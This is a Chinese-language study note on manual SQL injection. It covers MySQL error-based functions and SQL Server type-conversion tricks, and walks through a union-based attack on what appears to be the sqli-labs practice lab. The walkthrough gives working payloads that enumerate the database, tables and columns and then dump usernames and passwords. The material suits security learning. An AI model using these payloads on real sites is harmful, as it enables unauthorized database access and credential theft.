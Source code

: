 ## 手工注入

-   总结

    >   -   函数
    >
    >       >   -   报错函数
    >       >
    >       >       >   extractvalue()
    >       >       >
    >       >       >   -   结合截取函数使用：select extractvalue(1,concat(0x7e,(mid((select  user()),10,32)),0x7e))；
    >       >
    >       >   -   updatexml()
    >       >
    >       >   -   gtid_subset()：mysql5.6以上的版本
    >       >
    >       >       >   -   全局事务标识符：用于跟踪和分布式管理复制环境中的事物
    >       >       >
    >       >       >   -   返回结果是布尔值：
    >       >       >
    >       >       >       >   -   true：集合1是集合2的子集
    >       >       >       >   -   false：集合1不是集合2的子集
    >       >       >       >   -   null：包含了空的gtid集合，或者两个gtid集合都为空
    >       >       >
    >       >       >   -   利用集合1的格式不符合gtid的标准格式
    >       >
    >       >   -   exp(x)：指数运算返回e的x次方，返回数据类型是double（1.79e+308）， x>709，引发溢出错误
    >       >
    >       >   -   sql server数据库的特征
    >       >
    >       >       >   -   强类型数据库，会严格区分数字和字符串，利用这个特性，就可以进行 报错注入。(mysql强类型数据库)
    >       >       >   -    convert(int,db_name()) convert()函数强制类型转换函数
    >       >       >   -   1/user
    >       >       >   -    1-system_user
    >       >
    >       >   -   截取函数
    >       >
    >       >       >   -   mid()
    >       >       >   -   left()
    >       >       >   -   right()
    >       >       >   -   substr()
    >       >
    >       >   -   判断函数
    >       >
    >       >       >   -   if()
    >       >       >   -   case when
    >       >
    >       >   -   其他函数
    >       >
    >       >       >   -   ascii()
    >       >       >   -   length()
    >       >       >   -   concat()
    >       >       >   -   count() //多少条数据
    >       >       >   -   系统函数
    >
    >   -   mysql注入
    >
    >       >   -   MySQL数据库构成
    >       >
    >       >       >   -   mysql5.0以后的版主，系统数据库 information_schema
    >       >       >
    >       >       >   ![image-20240318175059870](http://cdn.jsdelivr.net/gh/LynnJY/NoteDemo/20250319162140924.png)
    >       >
    >       >   -   联合注入
    >       >
    >       >       >   -   union操作符
    >       >       >
    >       >       >       >   -   把两个以上的select语句的结果组合到一个结果集中
    >       >       >       >   -   必须列数是相同的
    >       >       >
    >       >       >   -   1.判断注入点的列数 ——》order by
    >       >       >
    >       >       >       >   -   3列
    >       >       >       >
    >       >       >       >   <img src="http://cdn.jsdelivr.net/gh/LynnJY/NoteDemo/20250319162140925.png" alt="image-20240318175234866" style="zoom:200%;" />
    >       >       >
    >       >       >   -   2.找显示位——页面一定要有显示位
    >       >       >
    >       >       >       >   -   构造不存在的值-使原本的语句为假
    >       >       >       >
    >       >       >       >       >   -   //192.168.0.216/sqli/Less-1/?id=-2' union select 1,2,3--+
    >       >       >       >       >
    >       >       >       >       >   <img src="http://cdn.jsdelivr.net/gh/LynnJY/NoteDemo/20250319162140926.png" alt="image-20240318175353177" style="zoom:200%;" />
    >       >       >
    >       >       >   -   3.找数据
    >       >       >
    >       >       >       >   -   找数据库名：-2' union select 1,2,database()--+  //security
    >       >       >       >   -   找表名：-2' union select 1,2,group_concat(table_name) from  information_schema.tables where table_schema='security'--+  //emails,referers,uagents,users
    >       >       >       >   -   找字段：-2' union select 1,2,group_concat(column_name) from  information_schema.columns where table_name='users' and  table_schema='security'--+  // id,username,password 
    >       >       >       >   -   找数据：-2' union select 1,username,password from users limit 2,1--+
    >
    >   -    group_concat()是用于在SQL查询中合并和连接多个行值的聚合函数。将多个值合并 为逗号分隔的字符串。